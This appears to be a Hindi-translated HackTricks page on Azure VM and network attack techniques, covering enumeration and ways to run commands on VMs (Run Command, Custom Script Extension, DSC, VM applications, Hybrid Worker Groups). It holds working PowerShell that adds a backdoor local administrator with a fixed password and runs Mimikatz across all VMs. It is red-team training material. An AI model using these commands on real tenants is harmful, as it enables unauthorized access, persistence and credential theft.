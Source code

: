 # Az - वर्चुअल मशीनें और नेटवर्क

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## बुनियादी जानकारी

[दस्तावेज़ से:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure वर्चुअल मशीनें [ऑन-डिमांड, स्केलेबल कंप्यूटिंग संसाधनों](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) के कई प्रकारों में से एक हैं जो Azure प्रदान करता है। आमतौर पर, आप एक वर्चुअल मशीन का चयन करते हैं जब आपको अन्य विकल्पों की तुलना में कंप्यूटिंग वातावरण पर अधिक नियंत्रण की आवश्यकता होती है। यह लेख आपको बताता है कि आपको वर्चुअल मशीन बनाने से पहले क्या विचार करना चाहिए, आप इसे कैसे बनाते हैं, और आप इसे कैसे प्रबंधित करते हैं।

## Azure नेटवर्क जानकारी

Azure नेटवर्क में **विभिन्न संस्थाएँ और इसे कॉन्फ़िगर करने के तरीके शामिल हैं।** आप विभिन्न Azure नेटवर्क संस्थाओं के संक्षिप्त **विवरण,** **उदाहरण** और **गणना** कमांड पा सकते हैं:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure बैस्टियन

**Azure बैस्टियन** SSL के माध्यम से Azure पोर्टल पर एक सुरक्षित, पूरी तरह से प्रबंधित RDP (रिमोट डेस्कटॉप प्रोटोकॉल) और SSH (सिक्योर शेल) एक्सेस समाधान प्रदान करता है। यह Azure वर्चुअल नेटवर्क के भीतर एकीकृत है, जो निजी आईपी का उपयोग करके VMs के लिए RDP और SSH कनेक्टिविटी की अनुमति देता है, जिससे सार्वजनिक आईपी की आवश्यकता समाप्त हो जाती है। यह सार्वजनिक आईपी असाइनमेंट और VM एक्सेस के लिए NSG नियम कॉन्फ़िगरेशन से संबंधित पारंपरिक तरीकों की तुलना में एक सुरक्षित, अधिक सुविधाजनक विकल्प बनाता है। डेवलपर्स और IT कर्मी Azure पोर्टल से अपने वेब ब्राउज़रों का उपयोग करके VMs तक सुरक्षित रूप से पहुँच सकते हैं, विकास और परीक्षण वातावरण के लिए प्रक्रिया को सरल बनाते हैं।

आप अपनी सदस्यता में सभी Azure बैस्टियन होस्ट की सूची बनाने के लिए निम्नलिखित कमांड का उपयोग कर सकते हैं:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## VM सूचीकरण
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **VM में कमांड चलाएँ**

### **VM में AAD लॉगिन**

AzureAD के माध्यम से प्रमाणित उपयोगकर्ताओं को पहुँच की अनुमति देना संभव है। उदाहरण के लिए, एक **linux VM** तक पहुँचने की कोशिश करते समय: `ssh username@azure-corp.com@1.1.1.1` (लॉगिन करने की कोशिश करते समय azurecorp के साथ उपयोग की गई **ईमेल** का **उपयोग करना** महत्वपूर्ण है) आपको एक त्रुटि मिल सकती है:

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

बस **उन निर्देशों का पालन करें** [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) पर जाकर और कोड को इंगित करते हुए, ईमेल और पासवर्ड को क्रेडेंशियल के रूप में उपयोग करें और आप SSH के माध्यम से कनेक्ट करने में सक्षम होंगे (यदि उस उपयोगकर्ता के पास ऐसा करने के लिए पर्याप्त अनुमतियाँ हैं: `Virtual Machine Administrator Login` या `Virtual Machine User Login` भूमिका)।

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **कस्टम स्क्रिप्ट एक्सटेंशन चलाएँ**

Azure वर्चुअल मशीन (VM) एक्सटेंशन **छोटी एप्लिकेशन** हैं जो **Azure VMs** पर पोस्ट-डिप्लॉयमेंट कॉन्फ़िगरेशन और ऑटोमेशन **कार्य** प्रदान करती हैं। उदाहरण के लिए, यदि एक वर्चुअल मशीन को सॉफ़्टवेयर इंस्टॉलेशन, एंटीवायरस सुरक्षा, या इसके अंदर एक स्क्रिप्ट चलाने की आवश्यकता है, तो आप एक VM एक्सटेंशन का उपयोग कर सकते हैं।

इसलिए, यदि आपके पास इसे लिखने का एक्सेस है, तो आप मनमाना कोड निष्पादित कर सकते हैं:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) एक PowerShell उपकरण है जो Ansible के समान है, जिसका उपयोग कोड के माध्यम से एक होस्ट को सेटअप करने के लिए किया जाता है। DSC Azure के साथ एकीकृत होता है, जो विशिष्ट कॉन्फ़िगरेशन फ़ाइलों को अपलोड करने की अनुमति देता है। इन फ़ाइलों को एक सख्त सिंटैक्स का पालन करना चाहिए। विशेष रूप से, Azure में DSC एक्सटेंशन उन फ़ाइलों से कमांड निष्पादित कर सकता है जो कुछ प्रारूप मानदंडों को पूरा करती हैं, भले ही सिंटैक्स DSC मानकों के लिए सही न हो, जैसा कि प्रदान की गई आकृति में दिखाया गया है।

इन कमांडों का निष्पादन Az PowerShell में [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) फ़ंक्शन द्वारा किया जाता है। आवश्यकताओं में एक **.PS1** फ़ाइल शामिल है जिसमें एक परिभाषित फ़ंक्शन है और फ़ाइल को **.zip** फ़ाइल में संकुचित किया जाना चाहिए। भले ही सिंटैक्स DSC के लिए सटीक न हो, कोड फिर भी निष्पादित होगा। हालाँकि, एक्सटेंशन निष्पादन स्थिति को "विफलता" के रूप में चिह्नित करेगा, और कमांड से कोई आउटपुट दिखाई नहीं देगा क्योंकि स्थिति को विफलता संदेश द्वारा अधिलेखित किया गया है।

### VM Application Definitions

VM Application Definitions Azure VM पर संस्करणित अनुप्रयोगों की पुनरावृत्त तैनाती की अनुमति देती हैं। यह संसाधन VMs के बीच अनुप्रयोगों की तैनाती और अपडेट का समर्थन करता है। इसे सेट करने के लिए, कई चरणों की आवश्यकता होती है, जिसमें Az PowerShell में **`New-AzGalleryApplication`** और **`New-AzGalleryApplicationVersion`** जैसे कमांड शामिल हैं।

इस विधि के माध्यम से अनुप्रयोगों या कमांडों का निष्पादन **"VMAppExtension"** के माध्यम से होता है, जो स्वचालित रूप से तब स्थापित होता है जब एक अनुप्रयोग को VM पर लागू किया जाता है। एक्सटेंशन निर्दिष्ट URI से फ़ाइल को पुनः प्राप्त करता है और इसे ठीक उसी नाम से नामित करता है जैसे अनुप्रयोग, बिना किसी एक्सटेंशन के। फ़ाइल को सही ढंग से निष्पादित करने के लिए, REST API कॉल में "ManageActions" फ़ील्ड को फ़ाइल को उचित एक्सटेंशन के साथ पुनः नामित करने के लिए कॉन्फ़िगर किया जाना चाहिए। इस विधि की सेटअप, एक बार पूर्ण होने पर, प्रदान की गई आकृति में दिखाए गए ढांचे के समान होगी।

हालाँकि, निष्पादन की यह विधि अपेक्षाकृत धीमी है, एक अनुप्रयोग या कमांड को निष्पादित करने में लगभग 3-4 मिनट लगते हैं। इस प्रक्रिया से संबंधित फ़ाइलें विशिष्ट निर्देशिकाओं में संग्रहीत होती हैं (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` अनुप्रयोग कॉपी के लिए और `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` निष्पादन स्थिति के लिए)।

दोनों तकनीकें Azure वातावरण में कमांड निष्पादित करने और अनुप्रयोगों को तैनात करने के अद्वितीय तरीके प्रदान करती हैं, प्रत्येक के अपने सेट आवश्यकताएँ, चरण और विचार होते हैं।

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) Azure में एक विशेषता है जो Runbooks को, जो एक Automation Account में कॉन्फ़िगर किए गए हैं, एक Azure Virtual Machine (VM) पर निष्पादित करने की अनुमति देती है जो निर्दिष्ट HWG का हिस्सा है। यह निष्पादन VM पर स्थापित एक एक्सटेंशन के माध्यम से सुगम होता है, जो Runbook कोड को VM पर तैनात करता है। इस प्रक्रिया का एक महत्वपूर्ण पहलू यह है कि वास्तविक क्रेडेंशियल्स निष्पादन में एक कारक नहीं होते हैं क्योंकि कोड उच्च विशेषाधिकारों के साथ चलता है, विशेष रूप से **SYSTEM** या रूट के रूप में, जैसा कि प्रदान की गई आकृति में दर्शाया गया है।

Windows 10 VMs का उपयोग करने वालों के लिए एक महत्वपूर्ण विवरण यह है कि Runbook के लिए PowerShell संस्करण को निर्दिष्ट करना आवश्यक है। इसे PowerShell संस्करण 5.1 के रूप में चलाने के लिए सेट किया जाना चाहिए, न कि 7.1 के रूप में। यह आवश्यकता इस तथ्य से उत्पन्न होती है कि PowerShell 7.1 इन VMs पर डिफ़ॉल्ट रूप से स्थापित नहीं है, जिससे यदि संस्करण 7.1 निर्दिष्ट किया जाता है तो स्क्रिप्ट निष्पादन में विफलता होती है।

Azure की यह विशेषता हाइब्रिड वातावरण में कार्यों को स्वचालित और प्रबंधित करने के लिए एक मजबूत विधि प्रदान करती है, Azure VMs पर कार्यों के केंद्रीकृत प्रबंधन और निष्पादन की अनुमति देती है।

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
